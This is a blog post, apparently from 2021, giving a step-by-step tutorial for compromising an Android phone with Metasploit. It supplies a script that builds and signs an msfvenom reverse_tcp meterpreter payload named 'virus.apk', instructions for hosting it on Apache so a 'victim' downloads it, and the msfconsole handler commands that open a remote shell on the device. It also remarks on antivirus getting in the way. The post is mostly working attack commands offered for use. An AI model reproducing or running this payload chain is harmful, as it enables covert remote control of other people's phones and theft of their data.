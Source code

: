 +++ 
date = "2021-06-03"
title = "Hack an Android device with MSFvenom and Kali Linux"
slug = "Hack an Android device with MSFvenom and Kali Linux"
tags = []
categories = []
series = []
authors = ["Davide Dolce"]
+++

There are different ways and tools to hack an Android device, in this post, I will focus on **MSFvenom** to generate an APK which will be installed on the target device and the **Metasploit console** to set up a listener which will be used to interact with the device through the APK installed. Keep in mind that the payload used is not going to work with every Android version, mostly with the recent ones. The main purpose is to show how create a payload and setup a listener, after that we just need to create a server where the victim will download the virus. I found many other tutorials on Google about this topic but they are extremely old and they don't even tell you the Kali version used. You might think that is not important, but when I was looking to learn how to use MSFvenom, many parameters used were not working. Here is a simple example:

```sh
$ msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4444 R > virus.apk
```

So why this is wrong in the first place ? If we paste this command in our terminal, we get this error:

```sh
Error: No options
```

As you can see something is not correct, more specifically "**R**" is not recognized as a parameter, technically this should create our APK as an output file, but if we check the official documentation on the [Offensive Security website](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), we can clearly see that the correct parameter to use is "**-o**":

!["msfvenom-commands"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/msfvenom-commands.png)

This is just a simple tip to take these tutorials as they are right now, because after one year they could already be outdated, even this tutorial created by me of course. If something is not working, check the [documentation](https://www.offensive-security.com/metasploit-unleashed/).

# Requirements

It should be obvious but these are the tools required:

- [Kali Linux](https://www.kali.org/get-kali/) (the version used is **2021.1**)
- An Android device (if you do not have an Android phone, use a VM or an emulator like [Bluestacks](https://www.bluestacks.com/))

You have already installed Kali Linux but you don't remember the correct version ? No problem, use this command in the terminal:

```sh
$ lsb_release -a
```

And you should get the following output:

```sh
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

# Create the payload

Instead of typing 7 different commands in the terminal one by one, we can simply create a shell script to do the job. Open the terminal and use the following command to create a file:

```sh
$ touch createThePayload.sh
```

Make the script created an executable with:

```sh
$ chmod +x createThePayload.sh
```
Copy and paste the following code (of course you have to set your IP and a port like **4444**):

```sh
#!/bin/sh
 
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o virus.apk
 
keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
 
sudo apt-get install default-jdk -y
 
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore virus.apk hacked
 
jarsigner -verify -verbose -certs virus.apk
 
sudo apt-get install zipalign -y
 
zipalign -v 4 virus.apk virus_signed.apk
```

Type **./createThePayload.sh** and hit enter to execute the script, check the output in the terminal to see if everything is correct.

## A quick explanation about the commands used

With **MSFvenom** we set the payload, the host which is our IP, the port and the output as "**virus.apk**". 

The **keytool** command is a key and certificate management utility. We set the keystore file to generate, an alias like **hacked** but you can use what you want just keep in mind this alias when you are using the **jarsigner** command, the algorithm like RSA, the key size, the validity. 

We have to install two packages, **default-jdk** to use the jarsigner in order to sign and verify a Java Archive, **zipalign** which is an archive alignment tool that provides important optimization to Android application (.apk) files. We set the parameter "**-y**" to automatically answer with "yes" to the prompt in the terminal. We need to sign a certificate because Android mobile devices are not allowed to install apps without the appropriately signed certificate. Android devices only install signed .apk files.

# Setup the server

Now to download the APK on a target machine, we could use a server with **Apache**, from here we just need to go the correct url, which is something like "**192.168.1.2/virus_signed.apk**". In order to move the APK created by the script in "**/var/www/html**", we need root permissions. Besides using a command like:

```sh
$ sudo virus_signed.apk /var/www/html/virus_signed.apk
```

You could also use the following command when you know you will be running various commands that need root access and don't want to run each of them with sudo:

```sh
$ sudo -i
```

Check if the **apache2** service is running with:

```sh
$ service apache2 status
```

If you get the following output:

```sh
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: https://httpd.apache.org/docs/2.4/
```

Start the service with:

```sh
$ sudo service apache2 start
```

If we open Firefox and type the IP of our machine (you can get the IP with the terminal by typing **ifconfig**), we get the Debian Page:

!["it-works"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/it-works.png)

And if we search our apk file in the website directory, we can download it:

!["download-apk"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/download-apk.png)

# Setup the listener

And now we have to set our listener with the **msfconsole**, we set the exploit, the payload and the host. The port is already set as 4444 but you change it. After that we will run it and we will download the apk on a mobile device or an emulator, in my case I used my phone. Follow these steps to set the listener:

1. Start the **msfconsole**:

```sh
$ msfconsole
```

2. When the console is ready, type this command (it should be obvious but don't copy "**msf >**" in the terminal):

```sh
msf > use exploit/multi/handler
```

3. Set the host:

```sh
msf > set lhost TypeYourIPHere
```

4. Set the payload:

```sh
msf > set payload android/meterpreter/reverse_tcp
```

5. Run the exploit:

```sh
msf > run
```

Download the apk on the phone, you need to make sure that your Kali machine and your Android device are on the same network.

# Let's test some commands

Some commands will not work, but the main purpose of this video is to show how to make this stuff work, you can always change the payload or even make your own payload. Here is a quick demo:

{{< vimeo 559419552 >}}

# TLDR

With this post you should be able to create a payload for Android, setup a server and a listener to make everything work perfectly. As you can see in the demo, the antivirus is preventing us from installing the APK, in some cases it can also close the connection to our Kali machine. There are other cases where the connection will be closed, unfortunately there isn't a single solution so you will need to try different approaches. Try to check if the architecture used to create the APK is the same used by Android and of course if the antivirus is preventing the payload to work correctly.